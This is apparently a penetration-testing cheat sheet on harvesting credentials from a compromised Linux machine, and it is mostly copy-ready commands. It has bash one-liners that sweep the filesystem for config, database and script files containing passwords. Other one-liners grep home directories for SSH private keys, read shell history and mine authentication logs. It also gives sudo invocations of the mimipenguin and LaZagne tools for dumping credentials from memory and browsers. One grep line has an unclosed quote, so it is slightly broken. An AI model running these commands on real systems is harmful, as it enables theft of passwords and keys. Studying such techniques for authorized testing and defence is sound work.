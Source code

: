 
**There are several sources that can provide us with credentials that we put in four categories:**

| Files              | History              | Memory               | Key-Rings                      |
|--------------------|----------------------|----------------------|--------------------------------|
| Configs            | Logs                 | Cache                | Browser stored credentials    |
| Databases          | Command-line History | In-memory Processing |                                |
| Notes              |                      |                      |                                |
| Scripts            |                      |                      |                                |
| Source codes       |                      |                      |                                |
| Cronjobs           |                      |                      |                                |
| SSH Keys           |                      |                      |                                |


## Files

```bash
## Configuration Files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

## Credentials in Configuration Files
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done

## Databases
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done

## Notes
find /home/* -type f -name "*.txt" -o ! -name "*.*"

## Scripts
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done

## ssh keys
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"   ## private
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1        ## public

```

### cronjobs
can be found in /etc/cron.daily, /etc/cron.hourly, /etc/cron.monthly, /etc/cron.weekly , /etc/cron.d/

```bash
cat /etc/crontab
ls -la /etc/cron.*/
```

## History

### Command-line History
- look in `.bash_history` and other files like `.bashrc` or `.bash_profile` can contain important information.

```bash
tail -n5 /home/*/.bash*
```

### Logs
we have 3 types of logs: Application Logs,Event Logs, Service Logs and System Logs


| Log File           | Description                                         |
|--------------------|-----------------------------------------------------|
| /var/log/messages  | Generic system activity logs.                       |
| /var/log/syslog    | Generic system activity logs.                       |
| /var/log/auth.log  | (Debian) All authentication related logs.          |
| /var/log/secure    | (RedHat/CentOS) All authentication related logs.   |
| /var/log/boot.log  | Booting information.                                |
| /var/log/dmesg     | Hardware and drivers related information and logs. |
| /var/log/kern.log  | Kernel related warnings, errors and logs.          |
| /var/log/faillog   | Failed login attempts.                              |
| /var/log/cron      | Information related to cron jobs.                   |
| /var/log/mail.log  | All mail server related logs.                       |
| /var/log/httpd     | All Apache related logs.                            |
| /var/log/mysqld.log| All MySQL server related logs.                      |


```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## Memory and Cache
- [https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin)

```bash
sudo python3 mimipenguin.py

sudo bash mimipenguin.sh 
```

- [https://github.com/AlessandroZ/LaZagne?](https://github.com/AlessandroZ/LaZagne?)
```
sudo python2.7 laZagne.py all
```
